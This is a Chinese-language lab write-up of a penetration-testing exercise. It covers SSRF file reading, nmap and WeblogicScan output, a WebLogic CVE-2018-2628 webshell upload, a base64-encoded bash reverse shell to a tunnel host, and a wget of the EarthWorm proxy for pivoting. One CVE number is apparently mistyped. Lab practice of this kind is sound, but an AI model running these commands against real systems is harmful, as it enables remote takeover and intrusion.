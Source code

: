 # web1

该环境有2台主机，第一台主机访问地址为：119.45.254.3:80（备用地址：175.27.230.88:80），剩余一台主机需要各位进行可能的内网代理、端口转发等操作进行发现和渗透。 当前FLAG信息如下： flag1：在第一台主机的根目录，分数为：50分。 内网范围在：172.18.240.0/24

登上网页，一个爬取快照功能，可以输入url网址。首先想到SSRF，直接尝试file协议`file:///flag`成功获取flag:

```
meetsec-web1{flag1-6d5e5c2bb397ba7727b58df59b35f66a}
```

`nmap  xxx  -sC -sV -v`先扫一下：

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 5f:63:b7:5f:ca:0c:4c:4c:8c:65:de:ca:e1:4e:bf:db (RSA)
|   256 8f:f2:9d:1a:5a:70:ec:aa:06:85:d8:2f:21:9a:97:26 (ECDSA)
|_  256 40:7d:fa:fe:8f:f9:23:c6:ad:0f:a4:01:f8:95:17:e9 (ED25519)
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Hello!
|_http-favicon: Unknown favicon MD5: 985ADF895E812B5C0CCBD677E25BF426
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
7001/tcp  open  http    Oracle WebLogic Server 10.3.6.0 (Servlet 2.5; JSP 2.1; T3 enabled)
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 10.3.6.0)
|_http-title: Error 404--Not Found
8081/tcp  open  http    Apache Tomcat 11.0.11
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/11.0.11
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8082/tcp  open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: BEES\xE4\xBC\x81\xE4\xB8\x9A\xE7\xBD\x91\xE7\xAB\x99\xE7\xAE\xA1\xE7\x90\x86\xE7\xB3\xBB\xE7\xBB\x9F_\xE4\xBC\x81\xE4\xB8\x9A\xE5\xBB\xBA\xE7\xAB\x99\xE7\xB3\xBB\xE7\xBB\x9F_\xE5\xA4\x96\xE8\xB4\xB8\xE7\xBD\x91\xE7\xAB\x99\xE5\xBB...
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-robots.txt: 6 disallowed entries 
| /install/ /data/ /includes/ /languages/ /member/ 
|_/template/
|_http-server-header: Apache/2.4.7 (Ubuntu)
58080/tcp open  http    Apache Tomcat (language: en)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Login Page
|_Requested resource was http://175.27.230.88:58080/login;jsessionid=B99F19236BEF57695D582B87B97AB105
|_http-favicon: Unknown favicon MD5: F2FEC6E35703AC01565B8241C36BEA1C
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

看到`weblogic-t3-info: T3 protocol in use`想到CVE-2028-2628

这里直接用WeblogicScan工具扫了:

```
Welcome To WeblogicScan !!!
Whoami：https://github.com/rabbitmask
[*] =========Task Start=========
[+] [175.27.230.88:7001] Weblogic Version Is 10.3.6.0
[+] [175.27.230.88:7001] Weblogic console address is exposed! The path is: http://175.27.230.88:7001/console/login/LoginForm.jsp
[+] [175.27.230.88:7001] Weblogic UDDI module is exposed! The path is: http://175.27.230.88:7001/uddiexplorer/
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2016-0638
[-] [175.27.230.88:7001] weblogic not detected CVE-2016-3510
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2017-10271
[-] [175.27.230.88:7001] weblogic not detected CVE-2017-3248
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2017-3506
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2018-2628
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2018-2893
[-] [175.27.230.88:7001] weblogic not detected CVE-2018-2894
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2019-2725
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2019-2729
[+] [175.27.230.88:7001] weblogic has a JAVA deserialization vulnerability:CVE-2019-2890
```

可以看到CVE-2018-2628确实存在，别的我们不管。

为了利用简单，选择一个上传webshell的payload

https://github.com/jas502n/CVE-2018-2628

```
┌──(root㉿kali)-[/home/orange/my_tools/weblogic/CVE-2018-2628]
└─# python2 CVE-2018-2628-Getshell.py  175.27.230.88 7001 123456.jsp

   _______      ________    ___   ___  __  ___      ___   __ ___   ___  
  / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \    |__ \ / /|__ \ / _ \ 
 | |     \ \  / /| |__ ______ ) | | | || | (_) |_____ ) / /_   ) | (_) |
 | |      \ \/ / |  __|______/ /| | | || |> _ <______/ / '_ \ / / > _ < 
 | |____   \  /  | |____    / /_| |_| || | (_) |    / /| (_) / /_| (_) |
  \_____|   \/   |______|  |____|\___/ |_|\___/    |____\___/____|\___/ 
                                                                        
                                                                        
                          Weblogic Getshell 
                                jas502n            


handshake successful


 >>>>usage: python cve-2018-2628.py ip port shell1.jsp 



>>>Shell File Upload Dir: 

servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\123456.jsp


>>>Getshell: http://175.27.230.88:7001/bea_wls_internal/123456.jsp?tom=d2hvYW1pCg==
```

注意这里最后上传的jsp文件名总共要是是个字符，因为payload长度在脚本中是硬编码好的，不能修改。

根据提示访问`bea_wls_internal/123456.jsp?tom=d2hvYW1pCg==`,出现`|->root<-|`字样。这里的root是url参数tom后的指令的结果。`d2hvYW1pCg==`是`whoami`的编码。

直接反弹shell即可，因为webshell中是直接Runtime.exec()我们的payload不能有管道符重定向符等，要base64编码。还有一点是我这里没有公网ip，使用的是coplar内网穿透工具。

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8yMS50Y3AudmlwLmNwb2xhci5jbi8xMDI4NiAwPiYx}|{base64,-d}|{bash,-i}
```

上面的指令还要进行一次base64编码，放入参数tom中，然后访问，成功拿到shell！

```
└─# nc -lvp 2333
listening on [any] 2333 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 35882
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@1718031e184e:~/Oracle/Middleware/user_projects/domains/base_domain# 
```

同样使用coplar，本地使用`python -m http.server 8080`开启web服务，靶机上使用wget下载`EarthWorm`代理工具：

```
wget http://55932df8.r16.vip.cpolar.cn/ew_for_linux64
```

因为本机是可以出网的，我们直接使用正向代理即可：

```
root@1718031e184e:~# ./ew_for_linux64 -s ssocksd -l 8888 2>/dev/null &
./ew_for_linux64 -s ssocksd -l 8888 2>/dev/null &
[1] 200
root@1718031e184e:~# netstat -tulnp | grep 8888
netstat -tulnp | grep 8888
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      200/ew_for_linux64
```

netstat可以检查一下有没有正常工作。

因为这里遇到进程是不是被挂断，使用nohup指令：

```
nohup ./ew_for_linux64 -s ssocksd -l 8888 > ew.log 2>&1 &
```

kali上需要使用`proxychains`来让其他程序的流量走这个代理

现在问题就在这里，代理走不通，扫nmap内网0-255全都存活

几个问题：

1. proxychains填谁的代理？按道理是目标靶机的代理。但是我们因为没有公网IP又用cpolar进行了一次穿透。
2. 这里环境看不明白，为什么都是一个IP？不同服务进去flag不一样？

最后是试试MSF的代理功能。

多尝试用MSF
